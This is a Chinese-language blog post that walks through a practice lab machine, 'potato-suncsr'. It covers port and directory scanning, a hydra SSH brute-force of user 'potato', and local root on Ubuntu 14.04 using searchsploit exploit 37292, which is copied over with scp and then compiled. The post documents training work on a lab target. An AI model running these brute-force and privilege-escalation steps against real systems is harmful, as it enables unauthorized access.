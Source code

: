 ```yaml
---
layout: post
title: potato-suncsr
subtitle: potato-suncsr
date: 2025-07-12 10:24
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 信息搜集

扫描发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/NvGNLM.png)

扫描端口

![image.png](https://img.ghostliner.top/SUmsGq.png)

访问80端口，未发现有效信息，目录扫描发现 `/info.php` 

`whatweb` 未发现信息
### SSH爆破

```shell
hydra -l potato -P 字典2/字典.txt -vV ssh://192.168.163.133:7120
```

![image.png](https://img.ghostliner.top/Q688l8.png)

```shell
ssh -p 7120 potato@192.168.163.133
```
### 提权

进入目标机后，尝试sudo, find 提权失败，查看系统信息

```shell
cat /etc/issue
uname -a
```

![image.png](https://img.ghostliner.top/N5KzN9.png)

搜索相关漏洞

```shell
searchsploit ubuntu 14.04
```

![image.png](https://img.ghostliner.top/7OioDi.png)

```shell
# 复制文件
searchsploit -m 37292
# 传输到目标机
scp -P 7120 37292.c potato@192.168.163.133:~
```

在目标机上编译并执行

```shell
gcc 37292.c
./a.out
```

![image.png](https://img.ghostliner.top/BNYY9H.png)

找到flag
![image.png](https://img.ghostliner.top/vmiV9f.png)
